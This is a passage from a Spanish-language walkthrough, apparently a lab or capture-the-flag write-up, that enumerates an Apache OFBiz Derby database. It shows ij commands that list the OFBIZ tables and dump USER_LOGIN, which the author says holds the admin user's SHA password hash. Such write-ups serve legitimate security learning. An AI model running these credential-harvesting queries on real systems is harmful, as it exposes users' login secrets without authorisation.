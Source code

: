 ```bash
12 filas seleccionadas
```

Enumeramos las tablas de la base de datos `OFBIZ`, en el resultado obtenido, comprobamos una tabla mencionada `USER_LOGIN`.

```bash
ij> SHOW TABLES IN OFBIZ;   

TABLE_SCHEM         |TABLE_NAME                    |REMARKS             
------------------------------------------------------------------------
OFBIZ               |ACCOMMODATION_CLASS           |                    
OFBIZ               |ACCOMMODATION_MAP             |                    
OFBIZ               |ACCOMMODATION_MAP_TYPE        |                    
OFBIZ               |ACCOMMODATION_SPOT            |                    
OFBIZ               |ACCTG_TRANS                   |  

...[snip]...

OFBIZ               |USER_AGENT                    |                    
OFBIZ               |USER_AGENT_METHOD_TYPE        |                    
OFBIZ               |USER_AGENT_TYPE               |                    
OFBIZ               |USER_LOGIN                    |                    
OFBIZ               |USER_LOGIN_HISTORY            |                    
OFBIZ               |USER_LOGIN_PASSWORD_HISTORY   |                    
OFBIZ               |USER_LOGIN_SECURITY_GROUP     |                    
OFBIZ               |USER_LOGIN_SECURITY_QUESTION  |                    
OFBIZ               |USER_LOGIN_SESSION            |                    
OFBIZ               |USER_PREFERENCE               |                    
OFBIZ               |USER_PREF_GROUP_TYPE          |  
```

Al revisar los datos de dicha tabla, nos encontramos con las credenciales del usuario`admin` en formato hash `SHA`, tal cómo se mencionaba en el archivo de configuración de seguridad.

```bash
ij> SELECT * FROM OFBIZ.USER_LOGIN;
USER_LOGIN_ID                    |CURRENT_PASSWORD                                                                |PASSWORD_HINT                                                                                                                   |IS_&|ENA&|HAS&|REQ&|LAST_CURRENCY_UOM   |LAST_LOCA&|LAST_TIME_ZONE                                              |DISABLED_DATE_TIME           |SUCCESSIVE_FAILED_LO&|EXTERNAL_AUTH_ID                                                                                                                |USER_LDAP_DN                                                                                                                    |DISABLED_BY                                                                                                                     |LAST_UPDATED_STAMP           |LAST_UPDATED_TX_STAMP        |CREATED_STAMP            
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
system                           |NULL                                                                            |NULL                                                                                                                            |Y   |N   |NULL|NULL|NULL                |NULL      |NULL                                                        |NULL                         |NULL                 |NULL                                                                                                                            |NULL                                                                                                                            |NULL                                                                                                                            |2023-12-16 03:39:04.584      |2023-12-16 03:39:04.538      |2023-12-16 03:38:54.694      |2023-12-16 03:38:54.284      |system              
```